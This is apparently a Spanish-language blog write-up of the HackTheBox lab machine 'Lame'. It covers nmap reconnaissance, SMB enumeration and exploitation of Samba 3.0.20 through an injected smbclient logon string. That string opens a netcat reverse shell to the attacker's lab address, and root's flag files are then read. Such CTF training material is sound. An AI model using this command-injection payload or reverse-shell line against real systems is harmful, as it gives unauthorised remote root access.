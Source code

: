 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Linux, SMB, Reverse-Shell, CVE, RCE, eJPT, Write-Up-Machine, Starting-Point]  
---
```

![list](/assets/img/lame/Captura de pantalla (139).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.3 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Buscamos la version vunerable de FTP `vsftpd 2.3.4` en Google.

Busacamos en searchsploit `Samba 3.0.20` una vulnerabilidad asociada a la version 

de samba.

![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}

El exploit esta escrito en ruby pero lo podenos buscar en google en python o bash. 
{:.note}

***
## Analisis de vulnerabilidades

En esta fase analizaremos la información recopilada en la fase anterior y el 

descubrimiento de las vulnerabilidades, ademas del reconoocimiento web.

Por lo  que podemos ver el script  tarata de autenticar un usualio con `/=nohup` 

Listamos los recursos con smbclient. 

![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L //10.10.10.3 -N
```
ingrsamos al recurso compartido en la carpeta /tmp .

![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}

## Explotacion

Por lo que deducimos en el script, aki podemos ejecutar comando y usaremos logon para 

ejecutar una reverse shell. 

![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}

```bash
logon "/=nohup nc -c sh 10.10.14.17 443"
```
En otro terminal debe estar a la ecucha un listener es decir `nc -lvnp 443`. 
{:.note}

```bash
root@lame:/# find -name user.txt | xargs cat
```
***
## Escalacion de privileguios

Lame no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag 

con el siguente comado.

![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}

```bash
root@lame:/# find -name root.txt | xargs cat
```
***
```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}